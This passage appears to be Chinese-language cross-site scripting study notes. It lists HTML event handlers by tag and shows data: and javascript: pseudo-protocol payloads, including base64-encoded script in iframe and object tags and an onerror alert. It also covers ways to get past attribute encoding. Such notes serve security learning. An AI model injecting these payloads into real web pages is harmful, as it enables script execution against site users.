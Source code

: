 ##### a. onclick

* `<a>`、`<address>`、`<b>`、`<bdo>`、`<big>`、`<blockquote>`、`<body>`、`<button>`、`<caption>`、`<cite>`、`<code>`、`<dd>`、`<dfn>`、`<div>`、`<dl>`、`<dt>`、`<filedset>`、`<form>`、`<h1>`、`<hr>`、`<i>`、`<img>`、`<input>`、`<kbd>`、`<label>`等等

##### b. onload

* `<body>`、`<frame>`、`<frameset>`、`<iframe>`、`<img>`、`<link>`、`<script>`

##### c. onerror

* `<img>`、`<object>`、`<style>`

##### d. 其他事件标签

* https://www.runoob.com/jsref/dom-obj-event.html

#### (3). JS伪协议

* 伪协议不同于网上真实存在的协议，而是为**关联应用程序而使用的**，例如tencent://(关联QQ)、**data:**(用base64编码在浏览器输出二进制文件)、**javascript:**

  ##### a. data://伪协议

  ```html
  1. 
  	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  
  2. 
  	<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
  
  3. 
  	<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
  
  4. 
  	<iframe src="data:text/html,%3Cscript%3Ealert(1)%3C%2Fscript%3E"></iframe>
  ```

  ##### b. javascript伪协议

  ```html
  <a href="javascript:alert('a')">1</a>
  <img src='#' onerror="javascript:alert('a')"></img>
  ```

#### (4). 标签内执行js

1. 闭合属性、闭合标签，无法闭合可能进行了htmlencode编码(htmlspecialchars函数)
2. 利用时间onload、onerror、onblur、onclick等
3. 特殊属性src/href/action
4. javascript伪协议

### 2. XSS构造

#### (1).利用<>构造标签
